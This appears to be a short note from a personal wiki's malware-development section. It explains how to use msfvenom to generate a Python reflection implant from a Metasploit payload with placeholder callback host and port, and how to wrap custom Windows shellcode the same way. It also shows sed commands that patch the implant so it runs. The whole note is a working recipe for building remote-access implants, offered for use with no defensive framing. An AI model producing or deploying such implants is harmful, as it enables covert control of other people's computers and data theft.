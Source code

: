 # MSFVenom

Generate any type of payload from the metasploit framework.

```
$ msfvenom -p <payload> lhost=<IP> lport=<PORT> -f python-reflection -o implant.py
```

You can also generate an implant from a custom shellcode.

```
$ msfvenom -p generic/custom payloadfile=./shellcode.bin -a x64 --platform windows -f python-reflection -o implant.py
```

Finally, fix the implant by appending this line in the top.

```
$ sed -i '1s/^/import ctypes\n/' implant.py

$ sed -i '1iimport ctypes' implant.py
```

---
## References

- [[03 - Malware Development/Global Helpers/Programs/Compilers/Cross Platform/Python|Compilers: Python]]